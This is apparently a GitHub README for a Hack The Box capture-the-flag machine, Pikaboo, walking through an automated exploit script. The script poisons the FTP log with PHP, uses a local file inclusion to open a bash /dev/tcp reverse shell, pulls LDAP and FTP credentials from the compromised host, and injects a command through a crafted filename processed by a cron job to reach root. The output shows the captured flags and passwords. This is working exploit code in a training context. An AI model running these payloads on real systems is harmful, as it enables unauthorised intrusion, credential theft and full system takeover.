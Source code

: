 # Hack The Box. Machines. Pikaboo

Machine write-up: https://7rocky.github.io/en/htb/pikaboo

### `autopwn.py`

This is a Python _script_ that automates all the steps needed to compromise the machine. These are the steps:

- Log poisoning
- Shell as `www-data`
- System enumeration
- LDAP enumeration to get `pwnmeow`'s FTP password
- Store malicious file via FTP for command injection
- Shell as `root`

All these steps can be followed in the main function:

```python
def main():
    ftp = FTP(rhost)

    rev_shell = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'.encode()
    command = f'echo {b64e(rev_shell)} | base64 -d | bash'

    shell = log_poisoning(ftp, command)
    user = user_enum(shell)
    ldap_user, ldap_password = ldap_enum(shell)

    log.info(f'Found LDAP user: {ldap_user}')
    log.info(f'Found LDAP password: {ldap_password}')

    ftp_password = ldap_search(shell, user, ldap_user, ldap_password)

    log.info(f'Found FTP password: {ftp_password}')

    shell = command_injection(ftp, user, ftp_password, command)
    root_flag(shell)

    log.success('Got shell as root')
    shell.interactive(prompt='')
```

First we define the reverse shell command as a Bash command encoded in Base64. Something like his:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx
```

Then we use `log_poisoning` to obtain a shell as `www-data`:

```python
def log_poisoning(ftp, command: str):
    log_file = '/var/log/vsftpd.log'
    lfi_website = f'http://{rhost}/admin../admin_staging/index.php'
    log_poisoning_url = f'{lfi_website}?page={log_file}'

    try:
        ftp.login(f'<?php system("{command}"); ?>', 'asdf')
    except error_perm:
        log.info(f'FTP log ({log_file}) has been poisoned')
        sleep(5)

    Thread(target=requests.get, args=(log_poisoning_url, )).start()

    return listen_for_shell()
```

What it does is basically login to FTP with a username that contains PHP code, and then use an LFI vulnerability to include the FTP log file and execute the PHP code (which contains a system command with the reverse shell).

The function `listen_for_shell` does what its name says:

```python
def listen_for_shell(timeout: int = 20):
    shell = listen(lport, timeout=timeout).wait_for_connection()

    if shell.sock is None:
        log.error(f'Could not to connect to {rhost}')

    return shell
```

After obtaining a shell, we get the `pwnmeow` username and capture the `user.txt` flag:

```python
def user_enum(shell) -> str:
    shell.sendlineafter(b'$', b'ls /home')
    shell.recvline()
    user = shell.recvline().decode().strip()

    log.info(f'Found user: {user}')
    sleep(1)

    shell.sendline(f'cat /home/{user}/user.txt'.encode())
    shell.recvline()
    user_txt = shell.recvline().decode().strip()

    log.warning(f'Found user.txt: {user_txt}')
    sleep(1)

    return user
```

Then, we find some LDAP credentials in file `/opt/pokeapi/config/settings.py` (read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more information). We need to use some regular expressions to extract the desired values:

```python
def ldap_enum(shell) -> Tuple[str]:
    shell.sendline(b'cat /opt/pokeapi/config/settings.py')
    shell.recvuntil(b'DATABASE')
    settings = shell.recv(2048, timeout=2).decode()

    ldap_settings = re.findall(r'''
\s+"ldap": {
    \s+"ENGINE": ".*?",
    \s+"NAME": ".*?",
    \s+"USER": "(.*?)",
    \s+"PASSWORD": "(.*?)",
\s+}''', settings)

    ldap_user, ldap_password = ldap_settings[0]
    return ldap_user, ldap_password
```

Once we have credentials for LDAP, we can use `ldapsearch` command using the function `ldap_search` (again, read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more details). Regular expressions are needed too:

```python
def ldap_search(shell, user: str, ldap_user: str, ldap_password: str) -> str:
    base = 'dc=ftp,dc=pikaboo,dc=htb'
    ldapsearch = f"ldapsearch -xD {ldap_user} -w '{ldap_password}' -b {base}"

    shell.sendline(ldapsearch.encode())
    shell.recvuntil(user.encode())
    res = shell.recv(2048, timeout=2).decode()

    ftp_password_enc = re.findall(r'userPassword:: (.*?)$', res, re.MULTILINE)
    return b64d(ftp_password_enc[0]).decode()
```

Finally, we perform a command injection into a Cron task exploiting a Perl open argument injection vulnerability.

To make this action work, the file must be crafted in a singular way and uploaded to a directory inside `/srv/ftp`. And this task must be done using Python's `ftplib` library and instructions (find library documentation [here](https://docs.python.org/3/library/ftplib.html)).

To create the malicious file, a system command (namely, `os.system`) must be used to avoid errors. Afterwards, the file is removed with another system command.

```python
def command_injection(ftp, ftp_user: str, ftp_password: str, command: str):
    filename = f'|{command}|.csv'
    os.system(f"touch '{filename}'")

    ftp.login(ftp_user, ftp_password)

    dirs = []
    ftp.dir(dirs.append)
    directory = dirs[0].split()[-1]

    ftp.cwd(directory)

    ftp.storlines(f'STOR {filename}', open(filename))
    log.info('Stored malicious file with injected command in filename')

    os.system(f"rm '{filename}'")
    ftp.close()

    return listen_for_shell(timeout=120)
```

Additionally, we have another function to capture the `root.txt` flag:

```python
def root_flag(shell):
    shell.sendlineafter(b'#', b'cat /root/root.txt')
    shell.recvline()
    root_txt = shell.recvline().decode().strip()

    log.warning(f'Found root.txt: {root_txt}')
```

Finally, we can execute the _script_ and compromise the machine with just one click:

```console
$ python3 autopwn.py 10.10.17.44
[*] FTP log (/var/log/vsftpd.log) has been poisoned
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47390
[*] Found user: pwnmeow
[!] Found user.txt: f3417b113fe715a58e02f9e29fe6c736
[*] Found LDAP user: cn=binduser,ou=users,dc=pikaboo,dc=htb
[*] Found LDAP password: J~42%W?PFHl]g
[*] Found FTP password: _G0tT4_C4tcH_'3m_4lL!_
[*] Stored malicious file with injected command in filename
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47396
[!] Found root.txt: 3904cd5b02fd88be5264107d52282460
[+] Got shell as root
[*] Switching to interactive mode
root@pikaboo:/srv/ftp/abilities#
```
